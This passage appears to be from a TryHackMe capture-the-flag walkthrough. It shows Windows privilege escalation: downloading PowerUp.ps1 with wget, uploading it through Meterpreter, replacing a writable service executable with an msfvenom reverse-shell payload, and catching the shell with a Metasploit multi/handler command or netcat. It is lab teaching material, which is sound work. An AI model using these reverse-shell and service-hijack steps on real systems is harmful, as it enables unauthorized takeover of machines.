Once edited, we just need to use the command run to start exploiting this vulnerability. It's important to remember that in LHOST, you need to provide your IP address within the TryHackMe VPN for it to work correctly.


Great! We're inside the machine. Now, by navigating to the Desktop directory of our user, we can access the first flag, which we need to provide to TryHackMe to complete the second Task.


# Post-Exploitation


Once inside the machine, we need to find a way to escalate our privileges. On this occasion, as recommended by TryHackMe, we'll use a PowerShell script called PowerUp. This script will give us hints to quickly identify ways to become the administrator of the machine. To download it to our local machine, we'll use the following command:

``` wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 ```


With the script on our attacking machine, we need to find a way to upload it to the victim machine. In this case, since we have an open Meterpreter session thanks to Metasploit, we just need to use the command upload followed by our recently downloaded file.


Great, the script is uploaded to the victim machine successfully. Now we need to convert our Meterpreter session to an interactive PowerShell console to execute the file. To achieve this, we use the command load powershell. Once loaded, we can use powershell_shell to get the desired shell.


Now, simply execute the script and then pass the command Invoke-AllChecks to our PowerShell console. By carefully examining the output, we can correctly answer the next question from TryHackMe.


If we look closely at the output of the script, we can see that besides having permission to restart the service, we also have write permissions in its directory. Combining these two signals, we realize that we could write malicious commands in this directory and then restart the service to execute our orders. To achieve this, we'll use msfvenom to generate a reverse shell with privileged permissions, replacing the legitimate executable with the one we just created.


To listen on our attacking machine to receive the shell, we use the command msfconsole -qx 'use exploit/multi/handler;set lhost tun0;set lport 4443;set payload windows/meterpreter/reverse_tcp;run'


After these steps, we just need to restart the service, and when our malicious file executes, we'll receive a new connection on our attacking machine. And it's not just any connection.


It seems that in my case, the listener in Metasploit is not working correctly, so I'll use netcat to listen on the port we specified in the msfvenom payload.


That's it! We received the shell correctly, and as we can see, we are the administrator of the machine and can read the last flag to complete the TryHackMe machine, well, not completely since it also encourages us to do it without using Metasploit, but we'll leave that for another day. I hope you enjoyed it, see you next time, a little kiss :)

